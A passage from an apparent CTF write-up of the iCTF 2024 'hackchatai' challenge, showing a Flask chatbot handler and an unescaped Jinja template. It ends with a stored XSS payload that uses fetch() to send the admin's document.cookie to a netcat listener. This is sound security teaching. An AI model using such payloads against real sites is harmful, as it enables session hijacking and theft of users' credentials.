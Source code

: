 ```python
        if cursor.fetchone():
            # Save the user's message
            conn.execute(SAVE_USER_MESSAGE,
                         (play_token, message, 0))
            conn.commit()

            if re.match(r"i\s*need\s*a\s*human", message, re.IGNORECASE):
                # Get the admin cookie from the database associated with the play token
                cursor = conn.execute(GET_ADMIN_COOKIE, (play_token,))
                try:
                    admin_cookie = cursor.fetchone()[0]
                    isLoaded = load_admin_page(admin_cookie=admin_cookie, play_token=play_token)
                    logger.info(f" web driver successfully loaded {isLoaded}")
                except Exception as e:
                    logger.error(f"Error loading web driver: {e}")
                    return jsonify({'response': 'Apologies, No human support available'})
                return jsonify({'response': 'No human support available'})
            try:
                response_message = get_answer(client=client, question=message)
            except Exception as e:
                load_dotenv()
                client = OpenAI(api_key=API_KEY, base_url=BASE_URL)
                response_message = get_answer(client=client, question=message)

            # Save the server's response
            conn.execute(SAVE_SERVER_MESSAGE,
                         (play_token, response_message, 1))
            conn.commit()

            return jsonify({'response': response_message})
        else:
            return jsonify({'error': 'Access denied: Invalid play token'}), 403
```


## Step 4 - Exfiltrating the Admin Cookie Locally

After looking over the other code, I noticed that in `admin_page_template.py`, which is called by `render_template_string(admin_page_template, FLAG=CTF_FLAG, username="Admin", chat_history=chat_history)`, we have this codeblock in the script for the admin page template
<img src="/assets/ctf/ictf-2024/hackchatai/admin_template.png" width="700px">

Huh. chat[0] (the first message in chat history) is marked as "safe", which means it won't be automatically escaped by Jinja. This means we can inject scripts in the first message we send and they will execute. I set up a local netcat listener, and sent a payload which should exfiltrate the admin cookie.

`i need a human <script>fetch('http://127.0.0.1:4444', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

![xss_1.png](/assets/ctf/ictf-2024/hackchatai/xss_1.png)
